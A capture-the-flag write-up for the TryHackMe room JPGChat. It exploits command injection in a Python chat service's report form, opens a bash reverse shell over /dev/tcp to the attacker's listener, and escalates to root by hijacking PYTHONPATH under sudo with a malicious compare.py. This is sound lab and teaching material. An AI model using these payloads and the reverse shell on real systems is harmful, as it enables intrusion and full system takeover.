


# JPGChat

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)

**Difficulty:** Easy

**Category:** Boot-to-root

**Description:** Exploiting poorly made custom chatting service written in a certain language…

- Name: JPGChat
- Additional Info: Hack into the machine and retrieve the flag

<details>
<summary> <h2> TLDR (Spoilers) </h2> </summary>

A python chat application was identified on port `3000` with source code available on GitHub, investigating the source code led to the identification of `command injection` vulnerability. A shell was obtained on the machine and a python program `test_module.py` was found with SETENV perms on `PYTHONPATH\` and able to run as root. A malicious `compare.py` was crafted and the path was pointed to it, thereby granting root shell. 

</details>

---

## Initial Reconnaissance

Nmap scan:

```
nmap -A -v <IP> -oN nmapresult.txt
```



There seems to be a service running on port 3000 but nmap cannot recognize it with certainty. I used `netcat` to access the port. 

```
└─$ nc 10.49.176.37 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

I tested out the apps functionalities using the message and report channel. 

```
Welcome to JPGChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]: attention everyone
[MESSAGE]: thanks for your attention
[MESSAGE]: ^C

[REPORT]
this report will be read by Mozzie-jpg
your name:
mikayn
your report:
i am too cool 
```

I assume the admin’s username is `Mozzie-jpg`. So I went to their github to find the source code for this chat application.

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

I immediately noticed huge vulnerability in this code, especially in these lines.

```python
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Here, user input `your_name` and `report_text` is being directly passed to bash via `os.system`. Because of no sanitization, this enables `command injection`. 

I checked this using the payload `; id' #`. 

### Payload Explanation

From the source code I saw that my input replaced the `%s` at the middle of the command. Furthermore, there was already an `echo` preceeding it. So if I input only the command `id`, it will treated as a string and saved to the file. 

So I had to “break out” of the echo and access the `bash -c` directly so my command would be run. I used `;` to end the `echo` command early. Now, my input would be passed to `bash -c` and I can run any command. 

But the output of the command will not be seen since there is still the redirect to the file (`> /opt/jpchat/logs/report.txt` ). 



So I “removed” it by commenting it out. The single quote after `id` is needed to close the other quote after `bash -c`. 

The payload successfully runs the command.

```bash
[REPORT]
this report will be read by Mozzie-jpg
your name:
; id' #
your report:
a

uid=1001(wes) gid=1001(wes) groups=1001(wes)
```

Next, I took a reverse shell from [https://www.revshells.com](https://www.revshells.com). 

I used `/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`, but any of the other bash commands should work. 

With that, I was in the machine. 

```bash
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/jpgchat]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<IP>] from (UNKNOWN) [10.49.176.37] 49034
bash: cannot set terminal process group (1498): Inappropriate ioctl for device
bash: no job control in this shell
wes@ubuntu-xenial:/$
```

## Shell as wes

First I claimed the user flag. 

```bash
wes@ubuntu-xenial:~$ id
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
wes@ubuntu-xenial:~$ ls
ls
user.txt
wes@ubuntu-xenial:~$ cat user.txt
cat user.txt
JPC{REDACTED}
```

Now I had to look for a way to escalate to root. In easy rooms like this, one thing that rarely dissapoints is `sudo -l`. Sometimes, its a miss, but not today. 

```bash
wes@ubuntu-xenial:~$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

If I can write to `test_module.py`, its an easy escalation. With fingers crossed, I checked if I could. 

```bash
wes@ubuntu-xenial:~$ ls -al /opt/development/test_module.py
ls -al /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py
```

Shucks. Of course it wont be that easy (even though it is). 

```bash
wes@ubuntu-xenial:/opt/development$ cat test_module.py
cat test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

So all this program does is compare 3 hellos. I had to think for a bit here but it clicked eventually. 

I could not write to `test_module.py` but what if I could edit the `compare` library? From `sudo -l`, I know I can also set environment variables for the command. 

Furthermore, `env_keep = PYTHONPATH` is also present, which means my environment variable for `PYTHONPATH` will be preserved when I change it. 

### Additional Info

The program above uses the `compare` library. When the program is run, it searches for the `compare` directory, where the code for the module is, in the paths specifies in `sys.path`.  

`PYTHONPATH` is an environment variable that adds directories to the search path that `sys.path` checks in when an import is called in a program.

The search order followed is typically (chatgpt): 

```
current directory > PYTHONPATH > standard libraries > site-packages
```

So, I could add a path to `sys.path` with a malicious `compare.py`. When the program is run, it finds my malicious program in `sys.path`, executing it and granting me root access.

```bash
wes@ubuntu-xenial:/tmp$ echo "import os; os.system('/bin/bash')" > compare.py
echo "import os; os.system('/bin/bash')" > compare.py
wes@ubuntu-xenial:/tmp$ cat compare.py
cat compare.py
import os; os.system('/bin/bash')
wes@ubuntu-xenial:/tmp$ chmod +x compare.py
chmod +x compare.py
```

I added execute perms just in case. Since the program will be run as sudo, spawning a shell will grant me the root’s shell. 

Then I set the environment variable to point to the `/tmp` directory and ran the command. 

Command: `sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/development/test_module.py`

```
wes@ubuntu-xenial:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/development/test_module.py
<o PYTHONPATH=/tmp /usr/bin/python3 /opt/development/test_module.py
pass
/bin/bash: line 1: pass: command not found
id
uid=0(root) gid=0(root) groups=0(root)
```

I went to root’s directory and claimed the root flag. 

```
cd /root
ls
root.txt
cat root.txt
JPC{REDACTED}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```

And thats room completed. Definitely a nice introduction to command injection for beginners. 

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Chat app running on port 3000 |
| 2 | Investigate source code of chat app on github | Discover potential command injection vulnerabiltiy |
| 3 | Input payload | Shell as `wes` + User flag |
| 4 | `sudo -l`  | Can run and change the environment variable `PYTHONPATH` of `test_module.py` as root  |
| 5 | investigate `test_module.py` | Imports a module `compare` |
| 6 | Create a malicious `compare.py`  | `compare.py` spawns a shell |
| 7 | Run `test_module.py` as root pointing `PYTHONPATH` to the malicious `cmopare.py`.  | Root shell + Root flag |
